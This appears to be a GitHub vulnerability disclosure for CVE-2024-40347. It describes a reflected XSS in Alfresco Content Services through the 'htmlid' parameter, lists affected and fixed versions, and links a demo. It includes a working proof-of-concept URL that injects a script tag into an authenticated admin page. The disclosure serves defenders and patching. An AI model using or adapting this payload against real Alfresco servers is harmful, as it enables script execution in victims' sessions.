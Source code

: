 CVE-2024-40347


Vulnerability: Reflected XSS

Note: The version and user below are the what was used. Other users and versions may be affected.

Requirements: It is likely the URL will not work unless you replace the GUID following the spacestore with one created in your test environment.

Version: 23.2.1-r96

Authenticated: Yes

User: Admin (possibly others)

Vulnerable Parameter: htmlid


https://192.168.1.102/share/service/components/folder-details/folder-metadata?nodeRef=workspace://SpacesStore/32a28673-6bbf-46b2-b533-e6220a94acf0&htmlid=template_x002e_folder-metadata_x002e_folder-details_x0023_default%22%3e%3cscript%3ealert(1)%3c%2fscript%3e


Fix will be in release of ACS 23.3 scheduled for August 2024. The following Hotfixes are also available for all supported versions of ACS:
ACS 7.2.2.1, ACS 7.3.2.1, ACS 7.4.2.1 and ACS 23.2.2
Please contact Hyland Support for more information.


Demo:

![](https://github.com/4rdr/proofs/blob/main/gifs/Alfresco_Reflected_XSS_via_htmlid_parameter.gif?raw=true)
